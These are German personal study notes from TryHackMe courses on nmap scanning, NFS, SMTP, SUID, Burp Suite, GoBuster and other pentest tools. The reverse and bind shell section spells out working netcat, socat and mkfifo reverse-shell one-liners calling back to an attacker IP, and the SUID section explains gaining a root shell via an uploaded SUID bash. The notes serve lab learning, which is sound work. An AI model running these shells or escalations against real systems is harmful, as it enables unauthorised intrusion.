* Man kann ``NFS`` nutzen, um eine Privilege Escalation auszunutzen (falls meine Shell mit niedrigen Rechten hat)
* Programm: ``nfs-common``, [nfs-common − Doku](https://packages.ubuntu.com/jammy/nfs-common)
	* Kommt u.a. mit folgenden Programmen

: ``lockd``, ``statd``, ``showmount``, ``nfsstat``, ``gssd``, ``idmapd`` & ``mount.nfs``

* ``showmount IP`` Zeigt an, welche Dateisysteme man einbinden kann (gglf. mit ``-e``)


* Beispiel für's Einbinden:


SMTP − Simple Mail Transfer Protocol
------------------------------------

* Teil von [Network Services 2 − TryHackMe](https://tryhackme.com/room/networkservices2)
* In Kombination mit ``POP/IMAP`` für Senden und Empfangen von E-Mail notwendig
	* Muss konfiguriert werden, wenn man bspw. Thunderbird nutzt
* ``POP/IMAP`` ``POP`` lädt E-Mail „nur“ herunter, während ``IMAP`` Postfach synchronisiert
* ``SMTP``-Server fungiert als „Sortierbüro“; Dort gehen alle E-Mails eines E-Mail-Dienstleisters ein
* Weg einer E-Mail: User → SMTP-Server → Internet → POP/IMAP Server → Recipient
	* In dem Raum findet sich eine genauere Beschreibung des Ablaufs oder unter <https://computer.howstuffworks.com/e-mail-messaging/email3.htm>


# nmap
Angelegt Sonntag 16 Oktober 2022


* [nmap − TryHackMe](https://tryhackme.com/room/furthernmap)
* Dokumentatio(en?)
	* <https://nmap.org/nsedoc/>
	* <https://nmap.org/book/>
* ``nmap`` scannt Ports oder IP-Adressen, dh. danach weiß man, welche offen, geschlossen oder gefiltert/geschützt (durch Firewall) sind.
	* Danach kann man schauen, welche Dienste unter welchem Port zu finden sind − entweder manuell oder automatisch (per ``nmap``)
	* Auch aktive IP-Adressen können und sollten mit ``nmap`` gesucht werden, um das (grobe) Lagebild zu vervollständigen („ping sweep“)


Syntax
------
``nmap [Scan Type(s)] [Options] {target specification}``

* ``{target specification}`` Bspw. IP-Adresse


Optionen
--------

### Standardoptionen, die immer verwendet werden sollten
``-vv`` Erhöhe „Verbosity“ um 1 (Standard: ``-v``); Je mehr ``v``s, desto höher
``-oA <DATEI>`` Ausgabe in „three major formats“ gleichzeitig speichern, um Netzwerkverkehr gering zu halten und um Wahrscheinlichkeit der Entdeckung zu minimieren
``-oN <DATEI>`` Ausgabe in „normal format“ speichern
``-oG <DATEI>`` Ausgabe in „[grepable − MeinWiki > Linux](#Linux:grep) format“ speichern

### Weitere Optionen
``-O`` Betriebssystem-Scan
``-sV`` Scanne der Version der laufenden Dienste
``-A`` „Aggressiveres“ Scanning, wenn irrelevant ist, wie „laut“ man ist

* Enable OS detection, version detection, script scanning, and traceroute

``-T<0-5>`` „Timing level“ angeben, je höher desto schneller, desto „lauter“
``-p <PORT>`` Scanne nur Port ``<PORT>``
``-p <PORT 1>-<PORT 2>`` Scanne Port-Intervall
``-p-`` Scanne alle Ports
``--top-ports <NUMBER>`` Scannt nur die ersten ``<NUMBER>`` Ports; Spart ggfl Zeit
``-sn <INTERVALL IP-ADRESSEN>`` Prüft, ob die IP-Adresse aktiv sind; ``<INTERVALL IP-ADRESSEN>`` kann auf zwei Arten angegeben werden:

* ``192.168.0.1-254``
* ``192.168.0.0/24`` (CIDR-Notation)

Schickt zudem TCP-ACK an Port ``80`` und, wenn als ``sudo`` ausgeführt, TCP-SYN-Packete zu Port ``443``, bzw. statt TCP-ACK an Port ``80`` (s. ``-sS``, bzw. „SYN-Scan“).

#### TCP- und UDP-Scans
``-sT`` TCP-Scan; Standardscan **ohne** ``sudo``; 3 Möglichkeiten:

1. Offen; Führt TCP-Handschlag (SYN - SYN/ACK - ACK) auf jedem Port aus
2. Geschlossen; Ist Port (bzgl. TCP?) geschlossen, wird RST (Reset) zurückgeschickt (SYN - RST)
3. „Filtered“ (Port durch Firewall geschützt); Entweder **keine** Antwort oder eine fingiertes RST-Packet. Das macht es für Angreifer schwierig bis unmöglich das Ziel korrekt auszulesen

``-sS`` „Syn Scan“, „Half-open“- oder „Stealth“-Scan; Standardscan wenn ``sudo nmap`` ausgeführt wird

* Im Gegensatz zu ``-sT`` wird hier **nicht** der volle TCP-Handschlag SYN - SYN/ACK - ACK durchgeführt, sondern SYN - SYN/ACK - RST. Das verhindert, dass das Ziel kontinuierlich Verbindungen aufbaut
* Vorteile
	* Ältere Sicherheitssysteme prüfen nur 3-Wege-Handschlag. Wird umgangen
	* Verbindungen werden nur geloggt, wenn sie vollständig aufgebaut werden. SYN-Scans zählen nicht dazu.
	* Schneller, da man sich nicht von jedem Port „trennen“ muss
* Nachteile
	* Benötigen ``sudo``-Rechte (für das RST-Packet)
	* ...irgendwie nicht so Richtige oder ich verstehe sie nicht

``-sU`` UDP-Scan; UDP ist im Gegensatz zu TCP statusfrei („stateless“), man erhält also keine Rückmeldung wie beim TCP-Handschlag. Man sendet einfach die Packete und hofft, dass sie durchkommen. Genau das macht UDP-Scans schwierig und langwierig (20min für die ersten 1000 Ports). Deswegen am besten ``--top-ports <NUMBER>`` (bspw. ``20``) verwenden.
3 Möglichkeiten für Antwort:

1. Erhält ``nmap`` keine Antwort, wird Port als ``open`` oder ``filtered``/``gefiltert`` markiert. Eventuell wird in diesem Fall ein zweites Packet gesendet.
2. Erhalt einer UDP-Antwort ⇒ Port offen
3. Erhalt eines ``ICMP`` (``ping``) Packets, dh Port ist eindeutig geschlossen

``nmap`` schickt leere UDP-Packete außer bei Ports für Anwendungen, die bekannt sind, dort Protokoll-Spezifische.

##### Weitere TCP-Scans

* Sind geheimer als SYN-Scans (``-sS``)
* Antwort auf offene Ports entspricht denen bei UDP-Scans
* Ports können nur als ``open|filtered``, ``filtered`` oder ``closed`` markiert werden

``-sN`` TCP Null-Scan
Schickt TCP-Scan mit keiner gesetzten Flag. Gemäß RFC wird dann mit RST geantwortet, wenn Port geschlossen
``-sF`` TCP FIN-Scan
Packet, das um Schließung des Verbindung bittet. Wieder wird gemäß RFC mit RST geantwortet
``-sX`` TCP Xmas-Scan
Schlecht konfiguriertes TCP-Packet. Wieder wird gemäß RFC ein RST erwartet

Firewall evasion
----------------

* „Der Firewall ausweichen“
* Es kann oft vorkommen, dass Ziele ICMP-Packete standardmäßig blockieren. ``nmap`` nutzt jedoch [ping − Mein Wiki > Linux > TryHackMe](#Linux:TryHackMe:ping) standardmäßig, um festzustellen, ob Ziel aktiv ist oder nicht. Wird ICMP blockiert, wird Ziel als inaktiv deklariert und nicht weiter inspiziert, obwohl das nicht der Fall sein muss. Lösung: 

``-Pn`` kein Ping wird abgesetzt bevor gescannt wird, Ziel wird oBdA als aktiv deklariert. Kann lange dauern, falls Ziel tatsächlich inaktiv ist, da dann jeder Port normal (und deswegen mehrfach) gescannt wird. In lokalem Netzwerk kann ARP benutzt werden.

* [man-bypass-firewalls-ids − nmap.org](https://nmap.org/book/man-bypass-firewalls-ids.html)


nmap-Skripte
------------

* werden in ``Lua`` geschrieben
* Bibliothek ist sehr umfangreich
* In Kategorien aufgeteilt:


Vollständige Liste unter [Kategorien der Skripte − nmap.org](https://nmap.org/book/nse-usage.html)
``--script=<SKRIPT-NAME|KATEGORIE>`` Führe bestimmtes Skript aus. Mehrere auf einmal möglich, indem man sie per Komma (ohne Leerzeichen) trennt
``--script-args`` ``<ARGS>`` Übergeben von Argumenten. Manche Skripte benötigen diese. Syntax für die Argumente: ``SKRIPT-NAME.ARGUMENT`` (``SKRIPT-NAME`` notwendig, da man mehrere auf einmal angeben kann). <https://nmap.org/nsedoc/> kann hilfreich sein für konkrete Informationen zu bestimmten Skripten.
``--script-help <SKRIPT-NAME>`` Öffnet Hilfe für bestimmtes Skript

### Skripte finden

* [nmap-Dokumentation − nmap.org](https://nmap.org/nsedoc/)
* Unter ``/usr/share/nmap/scripts/scripts.db`` (ist keine Datenbank, sondern eine formatierte Text-Datei) ⇒ man kann [grep − MeinWiki > Linux](#Linux:grep)


### Neue Skripte installieren & eigene hinzufügen


# ping
Angelegt Samstag 01 Oktober 2022


* ICMP-Protokoll
* In der Netzwerk-Schicht des OSI-Modells angesiedelt, bzw. Internet-Schicht des TCP/IP-Modells
* Gibt IP-Adresse eines Ziels zurück. Kann also zum herausfinden von IP-Adressen verwendet werden (im Bsp. IPv6)


Schalter
--------

* ``-4`` Nutze IPv4
* ``-6`` Nutze IPv6
* ``-i <INTERVALL>`` Spezifiziere Intervall für die Packete 


# Reverse & Bind Shells
Angelegt Sonntag 23 Oktober 2022

[#cheat-sheets](#Linux:TryHackMe:Reverse & Bind Shells): ganz unten.


* *Reverse Shell*: Code auf Zielrechner stellt Verbindung zu eigenen her (Listener ist der eigene Computer)
* *Bind Shell*: Das Ziel hört und wartet bis es Code erhält.
* [id: shell-nachteile]Sind oft
	* instabil,
	* [#non-interactive](#Linux:TryHackMe:Reverse & Bind Shells),
	* haben eigenartige Formatierungen/Formatierungsfehler, weil sie innerhalb eines Terminal-Prozesses laufen
	* und man kann bspw. **nicht** ``STRG + C`` nutzen, um Prozesse zu beenden, da das die Shell an sich stoppt.
		* Wird alles in [#python](#Linux:TryHackMe:Reverse & Bind Shells), [#rlwrap](#Linux:TryHackMe:Reverse & Bind Shells) & [#socat](#Linux:TryHackMe:Reverse & Bind Shells) behoben.


### Reverse Shell

* kommen zu 90% in CTFs vor
* *Listener* (``-l``) auf dem eigenen Rechner

	sudo nc -lvnp PORT # muss zuerst ausgeführt werden

und Shell beim Ziel
	nc <MEINE IP> PORT -e /bin/bash


* Wie man unter [#reverse-shell-listener](#Linux:TryHackMe:Reverse & Bind Shells) sieht, lautet die Syntax zum starten eines *Listener* ``nc -lvnp PORT``. Für Mehr Informationen zu den Optionen, s. [:Linux:**netcat & socat#Optionen**](#Linux:netcat & socat).
	* Bekannte Ports wie ``53``, ``80``, ``443`` bieten sich an, um weniger Verdacht zu erregen


### Bind Shell

* Genau andersrum zur [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells): Listener (``-l``) sitzt beim Ziel

	nc -lvnp PORT -e /bin/bash # muss zuerst ausgeführt werden
	# oder "cmd.exe" bei Windows
 
und Gegenstück bei mir
	nc ZIEL-IP PORT


* Damit *Bind Shells* funktionieren, muss es also bereits einen *Listener* beim Ziel geben.


Interactive & Non-Interactive
-----------------------------

* Mit *interactive* Shells gestartete Programme sind interaktiv, bspw. [:Linux:**ssh**](#Linux:ssh), das ggf. nach einen Passwort fragt
	* Die [#standard-mkfifo-reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells) ist *interactive*
* [id: non-interactive]*Non-interactive* Shells sind das Gegenteil. Mit ihnen kann man nur Programme, die keine Nutzer-Eingabe erwarten, sinnvoll ausführen
	* Die meisten [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells)s und [#bind-shell](#Linux:TryHackMe:Reverse & Bind Shells)s sind *non-interactive*
	* Von [:Linux:**ssh**](#Linux:ssh) würde man bspw. keine Passwort-Eingabe erhalten


Shell-Stabilisierung
--------------------
Auflistung mehrerer Möglichkeiten die Shell von ihren [oben](#Linux:TryHackMe:Reverse & Bind Shells) beschriebenen Nachteilen teilweise zu befreien. Alles entnommen aus [Introtoshells, Task 5 − TryHackMe](https://tryhackme.com/room/introtoshells).

* [id: tty-werte]Wenn einer der aufgeführten Stabilisierungen vorgenommen wurde, kann man noch die *Terminal-tty-Größe* ändern um bspw. Texteditoren über die *Reverse* oder *Bind Shell* zu nutzen
	* Dazu ``stty -a`` aufrufen und Werte für ``rows`` & ``columns`` notieren
	* Schließlich ``stty rows ANZAHL`` & ``stty cols ANZAHL`` ausführen


### Python

* Vorgehen **nachdem** man mit dem Zielrechner per [:Linux:**netcat & socat**](#Linux:netcat & socat) verbunden ist 
	1. Ggf. Version von [:Python](#Python), dh. ``python2`` oder ``python3`` verwenden

	python -c 'import pty;pty.spawn("/bin/bash")'
	
Startet etwas bessere ``bash``-Shell

2. *term-Befehle* aktivieren (bspw. ``clear``)

	export TERM=xterm
	

3. [id: strg-c-aktivieren]Wichtigster und letzter Schritt: Shell per ``STRG + Z`` in Hintergrund verlagern und 

	stty raw -echo; fg
	

* Schaltet ``echo``-Befehl des eigenen Terminals aus, wodurch man die Autovervollständigung, Pfeiltasten und ``CTRL + C`` zum Beenden von Prozessen nutzen kann. Anschließend wird Shell wieder in den Vordergrund (``f``ore ``g``round) geholt

❗️Wenn Shell stirbt, sieht man eigenen Eingaben wegen der Deaktivierung von ``echo`` nicht ⇒ ``reset`` eingeben!

#### Als Bild

### rlwrap

* Ist nicht einmal bei *Kali Linux* vorinstalliert.
* ``rlwrap`` erlaubt Zugriff auf die *Shell-Geschichte*, Autovervollständigung und Pfeiltasten unmittelbar mit dem Starten der [#reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells).
	* ``STRG + C`` aber **nicht** möglich, s. dazu [#strg-c-aktivieren](#Linux:TryHackMe:Reverse & Bind Shells)

	rlwrap nc -lvnp PORT


* Nützlich für Windows-Shells


### socat

* Voraussetzung: Man konnte bereits eine simple *netcat-Shell* etablieren
* Dazu einen [Python-HTTP-Server](#Python) auf dem **eigenen** Rechner starten
* Ein [socat-Binary − github](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64) in dem [Python-HTTP-Server](#Python)-Verzeichnis ablegen (das ohne Abhängigkeiten kompiliert wurde. Es finden sich noch mehr solcher Binaries unter dem Link)
* per [:Linux:**wget**](#Linux:wget) oder [:Linux:**curl**](#Linux:curl) dieses herunterladen und bspw in ``/tmp/socat`` speichern
* Datei ausführen, s. [Linux:**netcat & socat#reverse-shell**](#Linux:netcat & socat)


Beispiele und Erklärungen
-------------------------
Hier werden Beispiele und deren Erklärungen aufgeführt.

### socat-Reverse & Bind Shell

#### Reverse Shell

* Listener (bei mir):

	socat tcp-l:<PORT> - # Bindestrich nicht vergessen

äquivalent zu ``nc -lvnp PORT``

* Gegenstück (bei Ziel)

	socat tcp:<MEINE IP>:PORT exec:"bash -li"

#### Bind Shell

* Listener (bei Ziel):

	socat tcp-l:PORT exec:"bash -li"


* Gegenstück (bei mir):

	socat tcp:<ZIEL IP>:<ZIEL PORT> - # Bindestrich nicht vergessen

#### socat-Shell-Stabilisierung

* per ``socat`` erreicht man eine vollständig/normal stabile und interaktive Linux-Shell (funktioniert nicht mit Windows)

⇒ man kann [:Linux:ssh](#Linux:ssh) benutzen 

* Für den Listener (bei mir):

	socat tcp-l:PORT file:`tty`,raw,echo=0


* Listener und „current TTY“ werden verbunden, dann „``echo`` deaktiviert“, vgl. [#strg-c-aktivieren](#Linux:TryHackMe:Reverse & Bind Shells)


* Gegenstück (bei Ziel):

	socat tcp:<MEINE IP>:PORT exec:"bash -li",pty,stderr,sigint,setsid,sane


* ``tcp:…:…`` Stelle Verbindung zum Listener her
* ``exec:…`` Starte interaktive ``bash``-Sitzung



##### Beispielhafter Ablauf

* links: Listener (bei mir)
* rechts: aus einfacher [Reverse Shell](#Linux:TryHackMe:Reverse & Bind Shells) wird per ``socat`` eine stabile, interaktive Standard-Shell (mit [:Linux:ssh](#Linux:ssh)-Unterstützung)


* anschließend kann man noch die [#tty-werte](#Linux:TryHackMe:Reverse & Bind Shells) setzen


### Standard-mkfifo-Reverse Shell
	rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f; rm /tmp/f


0. Davor sollte ein *netcat-Listener* auf dem angegeben Port auf dem eigenen Rechner gestartet werden
1. ``rm /tmp/f`` Sicherheitshalber die Datei ``/tmp/f`` löschen, falls sie existiert, da ``mkfifo`` sonst keine neue *Named Pipe* anlegen kann. (Die *Named Pipe* wird bewusst im ``/tmp``-Verzeichnis angelegt, das beim Booten gelöscht wird und sowieso nur unwichtige Dateien enthält)
2. ``mkfifo /tmp/f`` Anlegen einer *Named Pipe*
3. [id: mkfifo-nc-shell]``cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f``
	1. ``cat /tmp/f`` lesen aus der *Named Pipe*
	2. ``| /bin/sh -i 2>&1`` Ausgabe von „a.“ in ``/bin/sh`` leiten (``|``)

``-i`` (``i``nteractive) sorgt dafür, dass man mit der Shell interagieren, also interaktive Programme wie [:Linux:**ssh**](#Linux:ssh) starten kann
``2>&1`` Fehlermeldung auf ``stdout`` leiten (s. [:Linux:**Deskriptoren**](#Linux:Deskriptoren)), damit auch diese an mich durch ``nc`` geschickt werden (sonst würden sie beim Ziel angezeigt werden)

3. ``| nc IP PORT`` Ausgaben von ``/bin/sh`` an ``nc`` leiten, das die Informationen an ``IP:PORT``, die dabei auf meinen Rechen verweisen, schickt
4. ``>`` Ausgaben von ``nc``, dh. unsere Eingaben, die an diesen *netcat*-Prozess geschickt werden, in die *Named Pipe* ``/tmp/f`` leiten


4. ``rm /tmp/f`` *Named Pipe* löschen

Der Befehl unter [3.](#Linux:TryHackMe:Reverse & Bind Shells) beschreibt einen Kreis, da *Named Pipes* nur funktionieren, wenn sie gleichzeitig gelesen und beschrieben werden. Das Ablaufdiagramm kann sich wie folgt vorgestellt werden:
``/tmp/f`` → ``cat`` → ``/bin/sh`` → ``nc`` → (auf meinem Rechner) Ausgabe im Terminal → Warten auf Eingabe → (auf Zielrechner) Eingabe in ``/tmp/f`` schreiben → ``cat`` → …

#### Weitere Möglichkeit
	rm /tmp/f; mkfifo /tmp/f; nc <MEINE IP> PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f


### Standard-mkfifo-Bind Shell

* Analog zu [#standard-mkfifo-reverse-shell](#Linux:TryHackMe:Reverse & Bind Shells)

	rm /tmp/f; mkfifo /tmp/f; nc -lvnp PORT < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f


1. Obiger Code wird auf Ziel-Rechner ausgeführt
2. Dann auf angreifendem Rechner: ``nc ZIEL-IP PORT``


#### Erklärung
Lösche Datei ``/tmp/f`` & Erstelle *Named Pipe* ``/tmp/f`` → *Listener* wartet auf Eingaben → übergibt diese ``/bin/bash`` & [stderr](#Linux:Deskriptoren) wird auf [stdout](#Linux:Deskriptoren) geleitet → Ausgabe des Befehls, bzw. [stdout](#Linux:Deskriptoren) wird in die *Named Pipe* geleitet → *Listener* „liest‘ von der *Named Pipe* → Schickt Ausgabe der *Named Pipe* zurück (an mich) → Lösche ``/tmp/f``

#### Beispielhafter Ablauf


### Index

* ``nc`` [:Linux:**netcat & socat**](#Linux:netcat & socat)
* [:Linux:**mkfifo (named pipes)**](#Linux:mkfifo (named pipes))


Cheat Sheets
------------
@cheatsheet

* [Reverse Shell Cheatsheet − github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* <https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>


# SQL & Datenbanken
Angelegt Samstag 22 Oktober 2022

Allgemeines
-----------

Syntax
------
``SELECT * FROM <TABELLE>`` Gibt die ganze Tabelle aus

MySQL
-----

* Normalerweise greift man nicht per Bruteforse direkt ``MySQL`` an sondern probiert Nutzername und Passwort an anderer Stelle zu finden
* In ``MySQL`` sind die Begrifft ``schema`` & ``database`` Synonyme, bspw bei Oracle Database-Produkten nicht (dort ist ``scheme`` sowas wie eine Teilmenge einer ``database``)
* In [Network Services 2 − TryHackMe](https://tryhackme.com/room/networkservices2) wird ein beispielhafter Exploit mit Metasploit beschrieben


SQLite
------

* Wird per ``sqlite3 DATENBANK`` gestartet

``.tables`` Zeigt alle Tabellen(namen-) an
``PRAGMA table_info(TABELLENNAME);`` (Semikolon!) Zeigt *Spaltenname*, *Datentypen* *und noch 2 Infos, die ich gerade nicht zuordnen kann* an


# SUID
Angelegt Freitag 21 Oktober 2022


* Wenn Datei ``SUID``-Bit gesetzt hat, wird Datei (wenn sie ausführbar ist) mit den Rechten des Besitzers ausgeführt, auch wenn der, der sie ausführt, diese Rechte nicht hat, zB. bei einer Datei, die ``root`` gehört und das ``SUID``-Bit hat, kann ein normaler Nutzer sie praktisch mit ``root``-Rechten ausführen.
	* Kann man dazu nutzen eine Shell mit diesen Rechten zu erhalten
	* (Ein) Grobes Vorgehen: Wenn man bspw. bei ``NFS``-Servern Dateien hochladen kann, dann kann man a priori die Permissions/Rechte dieser kontrollieren (ist ja auf dem eigenen Rechner)

⇒ Man kann ein ``bash``-Executable, das ``root`` gehört, mit gesetztem ``SUID``-Bit, dh ``s``-Bit, hochladen❗️Dann meldet man sich, bspw. per [:Linux:**ssh**](#Linux:ssh), an und führt diese Datei aus und erhält, wegen der Besitzers ``root`` und des gesetzten ``SUID``-Bits, eine ``root``-Shell.

* Das ``SUID``-Bit kann man wie folgt setzen:

	chmod +s BASH-EXECUTABLE
		

* wird ``S`` (und nicht ``s``) angezeigt


wurde das ``SUID``-Bit gesetzt aber das Recht für die Ausführung fehlt, dh. es ist sinnlos, da man die Datei nicht (bspw. mit ``root``-Rechten) ausführen kann. Das ``S`` weist also auf ein „sinnloses“ ``SUID``-Bit hin.
Lösung: „``x``“ hinzufügen:
	chmod +x DATEI # Setzt „x“ für alle
	chmod o=x DATEI # Setzt „x“ nur für „andere“ („other“)
		

* **Ausführung** einer ``SUID``-Datei, bzw. eines ``SUID``-``bash``-Executables, am besten mit ``-p``. Diese Option erhält die Rechte, also das ``s``/``S``, bzw. das ``SUID``-Bit.


# TCP
Angelegt Freitag 21 Oktober 2022


* Ist ein Protokoll...


tcpdump
-------

* Startet „tcpdump listener“, insbesondere

	sudo tcpdump ip proto \\icmp -i eth0

für ICMP-Packete, dh. wir erhalten eine Meldung, falls uns jemand [:Linux:TryHackMe:**ping**](#Linux:TryHackMe:ping)-Packete schickt.

* Kann dazu benutzt werden, um festzustellen, ob man vom ZIelrechner aus, den eigenen erreicht (``telnet``-Aufgabe in [Network Services − TryHackMe](https://tryhackme.com/room/networkservices), s. auch [:Linux:TryHackMe:**Netzwerk-Dienste**](#Linux:TryHackMe:Netzwerk-Dienste)), um bspw. eine ``Reverse Shell`` zu starten.


# tracepath
Angelegt Sonntag 09 Oktober 2022

Mit ``tracepath`` kann man sich alle Zwischenstationen ausgeben lassen, die (bspw. durch [ping – MeinWiki](#Linux:TryHackMe:ping)) abgegeben wurden.
	tracepath <DESTINATION>
		# tracepath wikipedia.de


* Protokolle können angegeben werden
* Eventuell heißt der Befehl auch ``tracepath``


# Werkzeuge
Angelegt Samstag 22 Oktober 2022

Hier liste ich einfach alle Werkzeuge, die ich im Laufe meines Bearbeitens der [:Linux:**TryHackMe**](#Linux:TryHackMe)-Kurse kennenlerne


* mfsvenom
* Metasploit ([Metasploit − TryHackMe](https://tryhackme.com/room/rpmetasploit))
* [Burp Suite](#Linux:TryHackMe:Werkzeuge:Burp Suite)
* [JohnTheRipper − MeinWiki](#Linux:TryHackMe:Werkzeuge:JohnTheRipper):Brechen von Passwörtern bzw. Passwort-Hashes
* [Hydra − MeinWiki](#Linux:TryHackMe:Werkzeuge:Hydra): Bricht Nutzerlogins durch Ausprobieren
* Es gibt Wortlisten für alles mögliche (Passwörter, Nutzernamen). Sind auf Kali Linux vorinstalliert (unter ``/usr/share/wordlists/``)
	* Mit [SecLists − github](https://github.com/danielmiessler/SecLists) kann man bspw. Subdomains finden
* [GoBuster](#Linux:TryHackMe:Werkzeuge:GoBuster): Hilft per Wortliste beim Finden von versteckten Unterseiten einer Domäne
* [crackstation.net](https://crackstation.net/) Seite, um Hashes zu brechen, va. für schwache Passwort-Hashes


# Burp Suite
Angelegt Sonntag 23 Oktober 2022

[Burp Suite − TryHackMe](https://tryhackme.com/room/burpsuitebasics#)


* ``Burp Proxy`` wichtiger Bestandteil
* Kann Verkehr (zwischen Angreifer und Ziel) abfangen, also inspizieren bevor sie abgeschickt/empfangen werden, und manipulieren
* Man kann Anfragen per Rechtsklick > „Send to...“ an andere Burp Suite-Funktionen schicken/übergeben
* Man kann Burp Suite auch mit dem eigenen Browser verwenden. Dazu muss den Verkehr „zu Burp Suite leiten“. Das geht per Proxy, dabei läuft Burp Suite unter ``127.0.0.1:8080``. Man kann auch [FoxyProxy − getfoxyproxy.org](https://getfoxyproxy.org/) nutzen (wie in [Burp Suite − TryHackMe](https://tryhackme.com/room/burpsuitebasics#))
	* Der **interne Browser** sollte nur mit niedrigen Rechten, dh. niemals als ``root``-Nutzer ausgeführt werden (bei TryHackMe ist man immer ``root``-Nutzer, deswegen funktioniert es in der AttackBox nicht), da ein Angreifer, der über den Burp Suite-Browser Zugang bekommt, dann den ganzen Rechner kontrolliert.

Lösung:
a) Als Nutzer mit niedrigen Rechten starten (wie schon beschrieben)
b) in den Einstellungen deaktivieren: Project options > Misc > Embedded Browser & „Allow the embedded browser to run without a sandbox“ wählen

Funktionen
----------

* *Proxy*: The most well-known aspect of Burp Suite, the Burp Proxy allows us to intercept and modify requests/responses when interacting with web applications.
	* **Scoping** sollte verwendet werden, um zu vermeiden, dass bspw. der Log mit Anfragen überschwemmt wird und unübersichtlich wird.
		* Aktivierung: *Target*-Reiter > Rechtsklick auf die Ziele in linker Spalte > „Add to Scope“ > Auf die Frage mit „yes“ antworten
		* Der *Scope* findet sich nun im *Scope*-Unterreiter (mächtige Funktion)
		* Damit nun die Anfragen von mir nicht manuell behandelt werden müssen, muss man noch eine **Intercept-Regel** festlegen: Proxy > Options > Intercept Client Requests > ☑️ And − URL − Is in target scope, dh. **nur** die Anfragen, die sich **im** *Scope* finden, werden abgefangen
* [Repeater](#Linux:TryHackMe:Werkzeuge:Burp Suite) : The second most well-known Burp feature [Repeater − TryHackMe](https://tryhackme.com/room/burpsuiterepeater) allows us to capture, modify, then resend the same request numerous times. This feature can be absolutely invaluable, especially when we need to craft a payload through trial and error (e.g. in an SQLi) or when testing the functionality of an endpoint for flaws.
* *Intruder*: Although harshly rate-limited in Burp Community, [Intruder − TryHackMe](https://tryhackme.com/room/burpsuiteintruder) allows us to spray an endpoint with requests. This is often used for bruteforce attacks or to fuzz endpoints.
	* Mit dem *Intruder* kann man Brute Force-Attacken durchführen. Dazu an einer Stelle per „Clear §“ ``§§`` (bspw. beim Passwort) einfügen und unter „Payload > Payload Options [Simple List]“ eine Wortliste laden.
* *Decoder*: Though less-used than the previously mentioned features, [Decoder − TryHackMe](https://tryhackme.com/room/burpsuiteom) still provides a valuable service when transforming data − either in terms of decoding captured information, or encoding a payload prior to sending it to the target. Whilst there are other services available to do the same job, doing this directly within Burp Suite can be very efficient.
* *Comparer*: As the name suggests, [Comparer − TryHackMe](https://tryhackme.com/room/burpsuiteom) allows us to compare two pieces of data at either word or byte level. Again, this is not something that is unique to Burp Suite, but being able to send (potentially very large) pieces of data directly into a comparison tool with a single keyboard shortcut can speed things up considerably.
* *Sequencer*: We usually use [Sequencer − TryHackMe](https://tryhackme.com/room/burpsuiteom) when assessing the randomness of tokens such as session cookie values or other supposedly random generated data. If the algorithm is not generating secure random values, then this could open up some devastating avenues for attack.


Einstellungen
-------------

* Globale Einstellungen unter *User options*-Reiter
* Projekt-Einstellungen unter *Project options*-Reiter (nur in Burp Suite Pro)
* The options in the *Connections* sub-tab allow us to control how Burp makes connections to targets. For example, we can set a proxy for Burp Suite to connect through; this is very useful if we want to use Burp Suite through a network pivot.
* The *TLS* sub-tab allows us to enable and disable various TLS (Transport Layer Security) options, as well as giving us a place to upload client certificates should a web app require us to use one for connections.
* An essential set of options: *Display* allows us to change how Burp Suite looks. The options here include things like changing the font and scale, as well as setting the theme for the framework (e.g. dark mode) and configuring various options to do with the rendering engine in Repeater (more on this later!).
* The *Misc* sub-tab contains a wide variety of settings, including the keybinding table (HotKeys), which allowing us to view and alter the keyboard shortcuts used by Burp Suite. Familiarising yourself with these settings would be advisable, as using the keybinds can speed up your workflow massively.


Repeater
--------

* Modifizierung, Vervielfältigung & Verzögerung von Anfragen, bspw. dann sinnvoll, wenn man nur bedingt Zugriff auf diese hat (wie bei jedem x-beliebigen Programm), da diese über den Burp-Proxy geschickt werden, den wir kontrollieren
* Im *Proxy*-Tab kann man per Rechtsklick Anfragen „zum Repeater senden“, um sie dort zu bearbeiten
	* Nachdem die Anfrage zum Repeater gesendet wurde „Intercept is on“ abwählen (dh. das Abfangen abschalten)
* Man kann sich auch nicht nicht-druckbare Zeichen auf ``\n`` anzeigen lassen: 


Oberfläche
----------


1. The Tasks menu allows us to define background tasks that Burp Suite will run whilst we use the application. The Pro version would also allow us to create on-demand scans. The default "Live Passive Crawl" (which automatically logs the pages we visit) will be more than suitable for our uses in this module.
2. The Event log tells us what Burp Suite is doing (e.g. starting the Proxy), as well as information about any connections that we are making through Burp.
3. The Issue Activity section is exclusive to Burp Pro. It won't give us anything using Burp Community, but in Burp Professional it would list all of the vulnerabilities found by the automated scanner. These would be ranked by severity and filterable by how sure Burp is that the component is vulnerable.
4. The Advisory section gives more information about the vulnerabilities found, as well as references and suggested remediations. These could then be exported into a report.


### Navigation

* Hauptsächlich über die Reiter
	* Tastenkombinationen:

``Ctrl + Shift + D`` Switch to the Dashboard
``Ctrl + Shift + T`` Switch to the Target tab
``Ctrl + Shift + P`` Switch to the Proxy tab
``Ctrl + Shift + I`` Switch to the Intruder tab
``Ctrl + Shift + R`` Switch to the Repeater tab


# GoBuster
Angelegt Samstag 22 Oktober 2022


* Terminalanwendung, um versteckte Webseiten zu finden

	gobuster -u http://fakebank.com -w wordlist.txt dir


* ``-u <SEITE>`` gibt an, welche Seite das Ziel ist
* ``-w <WORTLISTE>`` enthält alle möglichen „Pfade“, die man ausprobieren möchte, bspw. ``images``
* ``dir`` Ist eine „Option“, es gibt bspw. auch ``dns``, s. dazu am besten ``gobuster (-h|--help)``
